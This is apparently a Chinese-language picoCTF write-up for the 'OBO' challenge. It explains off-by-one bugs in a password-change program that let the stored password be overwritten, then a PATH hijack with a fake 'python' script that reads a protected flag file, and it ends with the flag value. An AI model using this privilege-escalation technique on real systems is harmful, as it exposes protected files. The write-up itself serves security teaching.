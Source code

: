 # OBO
拿到一個更改密碼的程式碼，一眼能看出許多地方有邊界錯誤：
 * 在generate_hex_table 這個程式裡：
  ```
hex_table[256];
...
for (i = 0; i <= 256; ++i) hex_table[i] = -1;
for (i = 0; i <= 10; ++i) hex_table['0' + i] = i;
for (i = 0; i <= 6; ++i) hex_table['a' + i] = 10 + i;
for (i = 0; i <= 6; ++i) hex_table['A' + i] = 10 + i;
// I don't know why, but I was getting errors, and this fixes it.
hex_table[0] = 0;
  ```
 * 提示說：如果能找出為何會產生error，和為何加上這行
  ```hex_table[0] = 0;```
  可以讓程式正常運行的原因，就可以破解這關了。
 * 在檢查新輸入的密碼是否夠複雜的程式碼：
  ```c++
for (i = 0; i <= strlen(new_password); ++i) {
	int index = hex_table[(unsigned char) new_password[i]];
	if (index == -1) {
	   printf("Invalid character: %c\n", new_password[i]);
	   exit(1);
	}
	digits[index] = 1;
}
  ```
  可以看到因為邊界錯誤，把不該檢查的結束字元'\0'也做複雜度檢查，這就是為什麼上面要加入
  ```hex_table[0] = 0;```
  才會正常運行的原因。
 * 同理，也可以看到digits的邊界也超出了一格，這超出的一格會以**int長度為單位**複寫stack上緊鄰的東西，也就是password！
 * 注意到sizeof(int) = 4 byte, 而sizeof(char) = 1 byte，所以password的前四格會被覆寫成[1][0][0][0]，也就是說password變成了：*\x01*！
那麼，接下來只剩下更改password的部份了。但很不幸的，這部份還沒有implement，我們需要找其他方法。
 * 仔細看一下呼叫python的code：
  ```snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);```
  是用相對路徑開啟，所以說不定我們能複製創一個set_password.py在另一個目錄下，印出flag：
  ```
#!/bin/sh
cat /home/obo/flag.txt
  ```
  我放到自己的目錄底下/home_users/pico62895，但很可惜，obo在這裡不能開啟password所以失敗，早該預料到的。
 * 那麼剩下調整環境變數，創一個叫作python的script檔，在export到PATH中：
  ```
pico62895@shell:~$ vim python
#!/bin/sh
cat /home/obo/flag.txt
pico62895@shell:~$ chmod +x python 
pico62895@shell:~$ export PATH=/home_users/pico62895:$PATH
#!/bin/sh
cat /home/obo/flag.txt
  ```
 * 然後再執行程式：
  ```
pico62895@shell:~$ (echo -e "123456789abcdefg\n\x01") | /home/obo/obo
New password: Confirm old password: watch_your_bounds
Password changed!
  ```
 * 成功取得 flag = watch_your_bounds。
